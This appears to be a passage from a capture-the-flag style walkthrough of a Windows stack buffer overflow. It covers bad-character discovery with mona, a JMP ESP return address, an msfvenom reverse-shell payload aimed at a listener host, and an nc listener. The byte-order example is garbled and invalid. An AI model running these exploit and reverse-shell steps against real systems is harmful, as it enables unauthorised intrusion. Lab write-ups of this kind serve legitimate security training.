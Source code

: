 The offset is important because we need this to push the payload into the correct portion of the app.

Now, update the offset of your payload to `2012`.

# Finding Bad Characters

Since we can push our payload to the correct position, it's time to find the bad characters in this app. (This is important due to apps corroding characters/not support them. We need to make sure our payload doesn't contain any).

Within the payload I gave you I already included a line with all of the ascii charaters that are possible so go uncomment it. (It's the big string that is after the var payload). :flushed:

Restart the app in ID and run `python exploit.py`

Go over to ID and run the command `!mona bytearray -b "\x00"`. This will create the same characters that we have in exploit.py so we can compare them, this lets us know what gets corrupted in transit.

Now compare them `!mona compare -f bytearray.bin -a <ESP Address>`

For this specific app we are told that "\x00\x80\x81\x82" are bad characters.

# Jmp anyone?

Now we need the jmp address, this makes sure that the app stays running when the exploit is sent.

To find this we can use `!mona jmp -r esp -b "\x00\x80\x81\x82"`  

Now select any of the addresses in the log output and write it BACKWARDS like so:   
T45G67 = \x67\x5g\xT4

And set this in the return value instead of BBBB


# Payload time

Now that we know this we can make a payload with msfvenom:  
`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.3.128 LPORT=4444 EXITFUNC=thread -b "\x00\x80\x81\x82" -f c`

`-b` is the flag to black-list bytes  
`-f` allows us to specify the language

Put the output of this payload in something like this  
`payload = (payload)` - the () are important

Spin up a `nc -lvnp 4444` and restart the app and run the exploit.

If everything went smoothly, you should have a shell in the box as the root user...

Cat the root and user txt file and you're done!


Congrats!!! Another box pwned
